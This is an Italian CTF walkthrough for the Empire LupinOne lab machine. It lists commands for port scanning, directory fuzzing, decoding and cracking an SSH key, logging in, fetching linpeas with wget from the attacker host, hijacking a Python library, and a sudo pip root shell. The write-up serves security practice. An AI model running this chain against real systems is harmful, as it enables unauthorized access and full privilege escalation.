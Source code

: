 # 🛡️ CyberCerberus: Seconda CTF Bonus - BuildWeek2

Benvenuto nel walkthrough professionale del CTF **Empire LupinOne**! Questo documento rappresenta il lavoro collaborativo del **TeamCyberCerberus**, che ha unito le proprie competenze per completare con successo il challenge. 💻

## [🏠 HOME](./README.MD)

---

## 🔍 **Pentesting Methodology**

### 1️⃣ **Network Scanning**
- **Identificazione dell'indirizzo IP target**:
  ```bash
  sudo nmap -p- -Pn -O -sV -sC -sS 192.168.1.7
  ```
- **Risultati**:
  - **Porta 80 (HTTP)**: Server web attivo. 

---

### 2️⃣ **Enumeration**

#### 🧕️‍♂️ Analisi del sito web
- Accesso alla porta 80 per esplorare il contenuto.
- Individuazione di `/robots.txt` che suggerisce una directory nascosta: `/~myfiles`.

#### ⚡ Fuzzing con FFUF
- Ricerca di directory nascoste:
  ```bash
  ffuf -u http://192.168.1.7/~FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -c
  ```
- Directory scoperta: `/~secret`.

#### 🔎 Analisi e scoperte aggiuntive
- Nel sorgente della pagina `/~myfiles`, abbiamo trovato un commento motivazionale:
  ```
  <!-- you can do it, keep trying -->
  ```
  Questo suggerimento ci ha spinti a continuare l'enumerazione per trovare risorse nascoste.

---

### 3️⃣ **Exploitation**

#### 🔐 Scoperta e decifrazione di chiavi SSH
- File SSH privato individuato in `/~secret`.
- Ricerca di file aggiuntivi con FFUF:
  ```bash
  ffuf -u http://192.168.1.7/~secret/.FUZZ -e .py,.java,.php,.dart,.rar,.zip,.txt,.html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -c -ic -fc 403
  ```
- File trovato: `.mysecret.txt`.
- Durante l'analisi di `/~secret`, abbiamo trovato un riferimento al nome utente `icex64`, che ci ha fornito un indizio cruciale per accedere successivamente al sistema.

#### 🪦 Decodifica della chiave RSA
- Contenuto del file `.mysecret.txt`:
  ```text
  5HueCGU8rMjxEXxiPuD5BDu3fjK4EM2sf57aXbVZ5q7Z3zKJMYp
  ```
- Dopo un'analisi del contenuto, abbiamo dedotto che si trattava di una **chiave RSA codificata in Base58**. Per decodificarla, abbiamo utilizzato un decoder online come [Browserling](https://www.browserling.com/tools/base58-decode) oppure uno script Python:
  ```python
  import base58

  encoded_key = "5HueCGU8rMjxEXxiPuD5BDu3fjK4EM2sf57aXbVZ5q7Z3zKJMYp"
  decoded_key = base58.b58decode(encoded_key).decode('utf-8')
  print(decoded_key)
  ```
- Una volta decodificata, la chiave è stata salvata in un file chiamato `victim_id_rsa` con i permessi corretti:
  ```bash
  chmod 600 victim_id_rsa
  ```

#### 🛠️ Conversione e brute force della chiave SSH
- Conversione della chiave per John the Ripper:
  ```bash
  ssh2john victim_id_rsa > hash_password
  ```
- Brute force con John the Ripper:
  ```bash
  john --wordlist=/usr/share/wordlists/fasttrack.txt hash_password
  ```
  - **Password trovata**: `P@55w0rd!`

#### 🚀 Accesso SSH
- Connessione alla macchina target:
  ```bash
  ssh -i victim_id_rsa icex64@192.168.1.7
  ```
- **Flag utente**: `user.txt` 🎉.

---

### 4️⃣ **Privilege Escalation**

#### 🦑‍🔧 Verifica dei privilegi di `sudo`
- Analisi dei permessi:
  ```bash
  sudo -l
  ```
  - Individuato file vulnerabile: `/home/arsene/heist.py`.

#### 🔍 Analisi con linpeas
- Esecuzione del tool:
  ```bash
  python -m SimpleHTTPServer 80
  ```
  - Su Kali Linux, abbiamo avviato un server HTTP e trasferito `linpeas` alla macchina target:
    ```bash
    wget 192.168.1.3/linpeas.sh
    chmod 777 linpeas.sh
    ./linpeas.sh
    ```
- Abbiamo identificato la posizione del file Python `webbrowser.py`.

#### 🐍 Escalation con script Python
- Modifica di `webbrowser.py` per eseguire `/bin/bash`:
  ```python
  os.system("/bin/bash")
  ```
- Esecuzione del file modificato:
  ```bash
  sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
  ```
  - Accesso come utente `arsene`.

#### 📦 Escalation finale con pip
- Esecuzione exploit di pip:
  ```bash
  TF=$(mktemp -d)
  echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
  sudo pip install $TF
  ```
  - **Accesso root** 🎉.

---

## 🏆 **Root Flag**

- Lettura del flag root:
  ```bash
  cat /root/root.txt
  ```

---

## 🌟 **Conclusione**

Il CTF **Empire LupinOne** è stato completato con successo grazie alla sinergia del **TeamCyberCerberus**! 🔒 Questo walkthrough evidenzia l'importanza di strumenti come **nmap**, **FFUF**, **linpeas**, e tecniche di privilege escalation come **pip** e Python library hijacking. 💻

Grazie per aver seguito questa guida e per il supporto al nostro team! 💪

## [🏠 HOME](./README.MD)
